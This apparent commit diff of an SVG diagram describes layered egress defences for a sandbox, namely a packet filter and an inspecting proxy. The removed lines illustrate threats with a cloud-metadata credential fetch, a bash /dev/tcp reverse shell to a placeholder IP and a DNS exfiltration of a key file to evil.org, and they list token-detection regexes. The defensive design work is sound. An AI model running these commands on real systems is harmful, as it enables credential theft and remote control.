

- <svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 960 450" width="100%" height="100%" font-family="-apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto, Helvetica, Arial, sans-serif">
+ <svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 700 324" width="100%" height="100%" font-family="Helvetica Neue, Helvetica, Arial, sans-serif">
  <defs>
-     <marker id="arr-navy" markerWidth="7" markerHeight="5" refX="6" refY="2.5" orient="auto">
-       <path d="M0,0 L7,2.5 L0,5 Z" fill="#1e293b" />
-     </marker>
-     <marker id="arr-teal" markerWidth="7" markerHeight="5" refX="6" refY="2.5" orient="auto">
-       <path d="M0,0 L7,2.5 L0,5 Z" fill="#0f766e" />
-     </marker>
-     <marker id="arr-burgundy" markerWidth="7" markerHeight="5" refX="6" refY="2.5" orient="auto">
-       <path d="M0,0 L7,2.5 L0,5 Z" fill="#991b1b" />
-     </marker>
-     <marker id="arr-ochre" markerWidth="7" markerHeight="5" refX="6" refY="2.5" orient="auto">
-       <path d="M0,0 L7,2.5 L0,5 Z" fill="#92400e" />
-     </marker>
-     <marker id="arr-slate" markerWidth="7" markerHeight="5" refX="6" refY="2.5" orient="auto">
-       <path d="M0,0 L7,2.5 L0,5 Z" fill="#475569" />
+     <marker id="arr-gray" markerWidth="8" markerHeight="6" refX="7" refY="3" orient="auto">
+       <path d="M0,0 L8,3 L0,6 Z" fill="#334155" />
    </marker>
  </defs>
-   <rect width="960" height="450" fill="#ffffff" />
-   <g transform="translate(24, 20)">
-     <rect width="190" height="410" rx="4" fill="#f8fafc" stroke="#991b1b" stroke-width="1.5" />
-     <rect width="190" height="28" rx="4" fill="#fee2e2" stroke="#991b1b" stroke-width="1.5" />
-     <text x="12" y="19" font-size="8.5" font-weight="700" fill="#991b1b">SANDBOX NETWORK NS</text>
-     <text x="178" y="19" font-family="monospace" font-size="7.5" fill="#991b1b" text-anchor="end">veth0 / tap0</text>
-     <g transform="translate(10, 36)">
-       <rect width="170" height="66" rx="3" fill="#ffffff" stroke="#cbd5e1" stroke-width="1" />
-       <text x="8" y="14" font-size="8" font-weight="700" fill="#1e293b">Interface Configuration</text>
-       <text x="8" y="28" font-size="7.5" fill="#475569">Isolated Net Namespace</text>
-       <text x="8" y="40" font-size="7.5" fill="#475569">No default host gateway</text>
-       <text x="8" y="52" font-family="monospace" font-size="7" fill="#991b1b">0.0.0.0/0 route: unmapped</text>
-       <text x="8" y="62" font-size="6.8" fill="#0f766e">Zero ambient network access</text>
-     </g>
-     <g transform="translate(10, 110)">
-       <rect width="170" height="286" rx="3" fill="#ffffff" stroke="#cbd5e1" stroke-width="1" />
-       <rect width="170" height="20" rx="3" fill="#f1f5f9" />
-       <text x="8" y="14" font-size="8" font-weight="700" fill="#1e293b">Outbound Traffic Flows</text>
-       <g transform="translate(8, 28)">
-         <rect width="154" height="52" rx="2" fill="#f0fdf4" stroke="#86efac" stroke-width="0.8" />
-         <text x="6" y="12" font-size="7.5" font-weight="700" fill="#166534">Package Install (HTTPS)</text>
-         <text x="6" y="24" font-family="monospace" font-size="7" fill="#15803d">pip install requests</text>
-         <text x="6" y="36" font-family="monospace" font-size="7" fill="#475569">dst: pypi.org:443</text>
-         <text x="6" y="46" font-size="6.5" font-weight="600" fill="#166534">Legitimate tool fetch</text>
-       </g>
-       <g transform="translate(8, 86)">
-         <rect width="154" height="58" rx="2" fill="#fef2f2" stroke="#fca5a5" stroke-width="0.8" />
-         <text x="6" y="12" font-size="7.5" font-weight="700" fill="#991b1b">Cloud IMDS SSRF</text>
-         <text x="6" y="24" font-family="monospace" font-size="6.8" fill="#991b1b">curl 169.254.169.254</text>
-         <text x="6" y="35" font-family="monospace" font-size="6.8" fill="#991b1b">  /latest/meta-data/iam</text>
-         <text x="6" y="46" font-size="6.5" font-weight="600" fill="#b91c1c">Host credential theft threat</text>
-       </g>
-       <g transform="translate(8, 150)">
-         <rect width="154" height="58" rx="2" fill="#fef2f2" stroke="#fca5a5" stroke-width="0.8" />
-         <text x="6" y="12" font-size="7.5" font-weight="700" fill="#991b1b">Raw IP Reverse Shell</text>
-         <text x="6" y="24" font-family="monospace" font-size="6.8" fill="#991b1b">bash -i &gt;&amp; /dev/tcp/</text>
-         <text x="6" y="35" font-family="monospace" font-size="6.8" fill="#991b1b">  198.51.100.1/4444</text>
-         <text x="6" y="46" font-size="6.5" font-weight="600" fill="#b91c1c">Direct TCP C2 connection</text>
-       </g>
-       <g transform="translate(8, 214)">
-         <rect width="154" height="60" rx="2" fill="#fef2f2" stroke="#fca5a5" stroke-width="0.8" />
-         <text x="6" y="12" font-size="7.5" font-weight="700" fill="#991b1b">Covert DNS Tunnel</text>
-         <text x="6" y="24" font-family="monospace" font-size="6.8" fill="#991b1b">token=$(cat /etc/key)</text>
-         <text x="6" y="35" font-family="monospace" font-size="6.8" fill="#991b1b">dig $token.evil.org</text>
-         <text x="6" y="46" font-size="6.5" font-weight="600" fill="#b91c1c">Secret exfiltration via UDP</text>
-       </g>
-     </g>
+   <rect width="700" height="324" fill="#ffffff" />
+   <g text-anchor="middle">
+     <text x="98" y="40" font-size="12.5" font-weight="700" fill="#0f172a">Guest</text>
+     <text x="98" y="57" font-size="11" font-style="italic" fill="#475569">no default route</text>
+     <text x="280" y="40" font-size="12.5" font-weight="700" fill="#0f172a">Packet filter</text>
+     <text x="280" y="57" font-size="11" fill="#475569">addresses, ports</text>
+     <text x="440" y="40" font-size="12.5" font-weight="700" fill="#0f172a">Mediator</text>
+     <text x="440" y="57" font-size="11" fill="#475569">name, operation, fields</text>
+     <text x="610" y="40" font-size="12.5" font-weight="700" fill="#0f172a">Outside the guest</text>
  </g>
-   <line x1="214" y1="225" x2="232" y2="225" stroke="#1e293b" stroke-width="2" marker-end="url(#arr-navy)" />
-   <g transform="translate(234, 20)">
-     <rect width="230" height="410" rx="4" fill="#f8fafc" stroke="#1e293b" stroke-width="1.5" />
-     <rect width="230" height="28" rx="4" fill="#f1f5f9" stroke="#1e293b" stroke-width="1.5" />
-     <text x="115" y="19" font-size="8.5" font-weight="700" fill="#1e293b" text-anchor="middle">LAYER 1: KERNEL PACKET FILTER</text>
-     <g transform="translate(10, 36)">
-       <rect width="210" height="66" rx="3" fill="#ffffff" stroke="#cbd5e1" stroke-width="1" />
-       <text x="8" y="14" font-size="8" font-weight="700" fill="#1e293b">Packet Filter Mechanics (tc hook)</text>
-       <text x="8" y="28" font-size="7.5" fill="#475569">Evaluates before <tspan font-family="monospace">sk_buff</tspan> allocation</text>
-       <text x="8" y="40" font-size="7.5" fill="#475569">Zero context switch; in-kernel drop</text>
-       <text x="8" y="52" font-family="monospace" font-size="7" fill="#0f766e">D(p) = FORWARD iff dst==IP_proxy</text>
-       <text x="8" y="62" font-family="monospace" font-size="7" fill="#991b1b">     else DROP (TC_ACT_SHOT)</text>
-     </g>
-     <g transform="translate(10, 110)">
-       <rect width="210" height="286" rx="3" fill="#ffffff" stroke="#cbd5e1" stroke-width="1" />
-       <rect width="210" height="20" rx="3" fill="#f1f5f9" />
-       <text x="8" y="14" font-size="8" font-weight="700" fill="#1e293b">Ordered Filter Rules</text>
-       <g transform="translate(8, 26)">
-         <rect width="194" height="46" rx="2" fill="#fee2e2" stroke="#fca5a5" stroke-width="0.8" />
-         <text x="6" y="12" font-size="7.5" font-weight="700" fill="#991b1b">Rule 1: Link-Local IMDS Trap</text>
-         <text x="6" y="24" font-family="monospace" font-size="6.8" fill="#7f1d1d">dst == 169.254.0.0/16 or [fd00:ec2::254]</text>
-         <text x="6" y="36" font-family="monospace" font-size="7" font-weight="700" fill="#991b1b">Verdict: TC_ACT_SHOT (DROP + Alert)</text>
-       </g>
-       <g transform="translate(8, 76)">
-         <rect width="194" height="46" rx="2" fill="#fee2e2" stroke="#fca5a5" stroke-width="0.8" />
-         <text x="6" y="12" font-size="7.5" font-weight="700" fill="#991b1b">Rule 2: Intranet RFC 1918 Trap</text>
-         <text x="6" y="24" font-family="monospace" font-size="6.8" fill="#7f1d1d">dst in {10.0/8, 172.16/12, 192.168/16}</text>
-         <text x="6" y="36" font-family="monospace" font-size="7" font-weight="700" fill="#991b1b">Verdict: TC_ACT_SHOT (Blocks Lateral)</text>
-       </g>
-       <g transform="translate(8, 126)">
-         <rect width="194" height="46" rx="2" fill="#fee2e2" stroke="#fca5a5" stroke-width="0.8" />
-         <text x="6" y="12" font-size="7.5" font-weight="700" fill="#991b1b">Rule 3: Raw Numeric IP Trap</text>
-         <text x="6" y="24" font-family="monospace" font-size="6.8" fill="#7f1d1d">Direct numeric IP without DNS lease</text>
-         <text x="6" y="36" font-family="monospace" font-size="7" font-weight="700" fill="#991b1b">Verdict: TC_ACT_SHOT (Reverse Shell Abort)</text>
-       </g>
-       <g transform="translate(8, 176)">
-         <rect width="194" height="46" rx="2" fill="#f0fdf4" stroke="#86efac" stroke-width="0.8" />
-         <text x="6" y="12" font-size="7.5" font-weight="700" fill="#166534">Rule 4: Proxy Forward Match</text>
-         <text x="6" y="24" font-family="monospace" font-size="6.8" fill="#14532d">dst == IP_proxy &amp;&amp; dport == P_proxy</text>
-         <text x="6" y="36" font-family="monospace" font-size="7" font-weight="700" fill="#166534">Verdict: TC_ACT_OK (FORWARD to proxy)</text>
-       </g>
-       <g transform="translate(8, 226)">
-         <rect width="194" height="46" rx="2" fill="#fee2e2" stroke="#fca5a5" stroke-width="0.8" />
-         <text x="6" y="12" font-size="7.5" font-weight="700" fill="#991b1b">Rule 5: Default-Deny Catch-All</text>
-         <text x="6" y="24" font-family="monospace" font-size="6.8" fill="#7f1d1d">Any unmatched outbound frame</text>
-         <text x="6" y="36" font-family="monospace" font-size="7" font-weight="700" fill="#991b1b">Verdict: TC_ACT_SHOT (Zero ambient)</text>
-       </g>
-     </g>
+   <rect x="20" y="76" width="156" height="228" rx="4" fill="#f8fafc" stroke="#94a3b8" stroke-width="1" />
+   <g fill="#fef3c7" stroke="#d97706" stroke-width="1.2">
+     <rect x="28" y="92" width="140" height="32" rx="3" />
+     <rect x="28" y="148" width="140" height="32" rx="3" />
+     <rect x="28" y="204" width="140" height="32" rx="3" />
+     <rect x="28" y="260" width="140" height="32" rx="3" />
  </g>
-   <line x1="464" y1="225" x2="482" y2="225" stroke="#0f766e" stroke-width="2" marker-end="url(#arr-teal)" />
-   <g transform="translate(484, 20)">
-     <rect width="230" height="410" rx="4" fill="#f8fafc" stroke="#0f766e" stroke-width="1.5" />
-     <rect width="230" height="28" rx="4" fill="#ccfbf1" stroke="#0f766e" stroke-width="1.5" />
-     <text x="115" y="19" font-size="8.5" font-weight="700" fill="#0f766e" text-anchor="middle">LAYER 2: EGRESS PROXY</text>
-     <g transform="translate(10, 36)">
-       <rect width="210" height="66" rx="3" fill="#ffffff" stroke="#cbd5e1" stroke-width="1" />
-       <text x="8" y="14" font-size="8" font-weight="700" fill="#1e293b">Proxy Mediation Enclave</text>
-       <text x="8" y="28" font-size="7.5" fill="#475569">Terminated at loopback / internal vlan</text>
-       <text x="8" y="40" font-size="7.5" fill="#475569">L7 deep inspection &amp; TLS termination</text>
-       <text x="8" y="52" font-family="monospace" font-size="7" fill="#0f766e">Listening: IP_proxy:8443 (Mutual TLS)</text>
-       <text x="8" y="62" font-size="6.8" fill="#334155">Cryptographic client identity check</text>
-     </g>
-     <g transform="translate(10, 110)">
-       <rect width="210" height="286" rx="3" fill="#ffffff" stroke="#cbd5e1" stroke-width="1" />
-       <rect width="210" height="20" rx="3" fill="#f1f5f9" />
-       <text x="8" y="14" font-size="8" font-weight="700" fill="#1e293b">L7 Protocol Inspection Engines</text>
-       <g transform="translate(8, 26)">
-         <rect width="194" height="74" rx="2" fill="#ffffff" stroke="#cbd5e1" stroke-width="0.8" />
-         <text x="6" y="12" font-size="7.5" font-weight="700" fill="#1e293b">A. TLS SNI Host Allowlist</text>
-         <text x="6" y="24" font-size="7" fill="#475569">Extracts SNI before TLS handshake:</text>
-         <rect x="6" y="28" width="182" height="18" rx="1" fill="#f0fdf4" stroke="#86efac" stroke-width="0.6" />
-         <text x="8" y="40" font-family="monospace" font-size="6.8" fill="#166534">MATCH: *.pypi.org, *.github.com → ALLOW</text>
-         <rect x="6" y="50" width="182" height="18" rx="1" fill="#fee2e2" stroke="#fca5a5" stroke-width="0.6" />
-         <text x="8" y="62" font-family="monospace" font-size="6.8" fill="#991b1b">MISMATCH: evil-c2.com → 403 FORBIDDEN</text>
-       </g>
-       <g transform="translate(8, 106)">
-         <rect width="194" height="78" rx="2" fill="#ffffff" stroke="#cbd5e1" stroke-width="0.8" />
-         <text x="6" y="12" font-size="7.5" font-weight="700" fill="#1e293b">B. Outbound Secret Redaction</text>
-         <text x="6" y="24" font-size="7" fill="#475569">Regex deep payload scanner on POST bodies:</text>
-         <rect x="6" y="28" width="182" height="42" rx="1" fill="#fef3c7" stroke="#fde68a" stroke-width="0.6" />
-         <text x="8" y="40" font-family="monospace" font-size="6.8" fill="#92400e">AWS: AKIA[0-9A-Z]{16}</text>
-         <text x="8" y="50" font-family="monospace" font-size="6.8" fill="#92400e">GH:  ghp_[0-9a-zA-Z]{36}</text>
-         <text x="8" y="62" font-size="6.5" font-weight="700" fill="#b45309">Action: Block POST &amp; Sever Session</text>
-       </g>
-       <g transform="translate(8, 190)">
-         <rect width="194" height="84" rx="2" fill="#ffffff" stroke="#cbd5e1" stroke-width="0.8" />
-         <text x="6" y="12" font-size="7.5" font-weight="700" fill="#1e293b">C. Split-Horizon DNS Enclave</text>
-         <text x="6" y="24" font-size="7" fill="#475569">Strict label length cap: ≤ 24 chars</text>
-         <text x="6" y="36" font-size="7" fill="#475569">Shannon entropy filter: H(X) &gt; 4.2 drop</text>
-         <rect x="6" y="42" width="182" height="34" rx="1" fill="#f0fdfa" stroke="#99f6e4" stroke-width="0.6" />
-         <text x="8" y="54" font-family="monospace" font-size="6.8" fill="#0f766e">dig $token.evil.org → NXDOMAIN</text>
-         <text x="8" y="68" font-size="6.5" font-weight="600" fill="#0f766e">Rate-clamped: 30 bytes/sec exfil limit</text>
-       </g>
-     </g>
+   <g font-size="12" font-weight="700" fill="#b45309" text-anchor="middle">
+     <text x="98" y="112">Fetch approved repo</text>
+     <text x="98" y="168">Push or another repo</text>
+     <text x="98" y="224">Direct socket</text>
+     <text x="98" y="280">Name lookup</text>
  </g>
-   <line x1="714" y1="225" x2="732" y2="225" stroke="#1e293b" stroke-width="2" marker-end="url(#arr-navy)" />
-   <g transform="translate(734, 20)">
-     <rect width="202" height="410" rx="4" fill="#f8fafc" stroke="#1e293b" stroke-width="1.5" />
-     <rect width="202" height="28" rx="4" fill="#f1f5f9" stroke="#1e293b" stroke-width="1.5" />
